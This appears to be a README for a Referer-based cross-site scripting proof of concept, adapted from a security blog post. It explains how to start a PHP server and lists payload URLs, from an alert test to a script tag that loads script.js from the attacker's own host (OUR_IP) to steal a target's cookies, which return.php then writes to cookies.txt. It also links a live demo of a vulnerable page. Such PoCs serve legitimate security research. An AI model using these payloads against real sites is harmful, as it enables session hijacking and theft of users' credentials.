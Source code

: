 ## Referer-based XSS PoC

### Starting the server

Start the server from the repo directory with:
```
php -S 0.0.0.0:80
```

### Example

for testing:
```
[http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=TARGET_URL]
```
*Note: Replace OUR_IP and TARGET_URL as appropriate.*

or to steal cookies:
```
[http://OUR_IP<script src=http://OUR_IP/script.js></script>?target=TARGET_URL]
```

Code based on what's discussed at Geekboy's blog here:
https://www.geekboy.ninja/blog/exploiting-unusual-referer-based-xss/

Geekboy also set up a vulnerable server for testing as discussed in the blog entry linked above. This link works as a test of our index.php file:
```
http://OUR_IP/index.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php
```

He set up a PoC here which is the same as index.php. You can click this link directly as is:
[http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php](http://p0c.geekboy.ninja/rxss.php/<svg/onload=alert(document.domain)>?target=http://p0c.geekboy.ninja/rxss-demo.php)


If cookies are stolen via script.js and return.php, they will be written to cookies.txt.

